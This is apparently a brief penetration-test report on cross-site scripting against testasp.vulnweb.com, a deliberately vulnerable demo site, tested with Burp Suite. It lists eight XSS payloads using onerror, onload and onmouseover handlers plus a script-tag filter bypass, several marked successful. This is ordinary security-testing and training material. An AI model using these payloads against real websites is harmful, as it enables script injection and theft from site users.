

Report
Title : Cross Site Scripting(Payloads) In http://testasp.vulnweb.com/

Domain : Vulnweb.com

Subdomain : http://testasp.vulnweb.com/

Testing Environment : Linux, BurpSuit, Wifi

Payloads Used :
1) <image src/onerror=prompt(8)> success
2) "onmouseover=alert(1)//
3) <image src =q onerror=prompt(8)> success
4) <img src =q onerror=prompt(8)>
5) </scrip</script>t><img src =q onerror=prompt(8)>
6) <svg onload=alert(1)>
7) "><svg onload=alert(1)//
8) '-alert(1)-'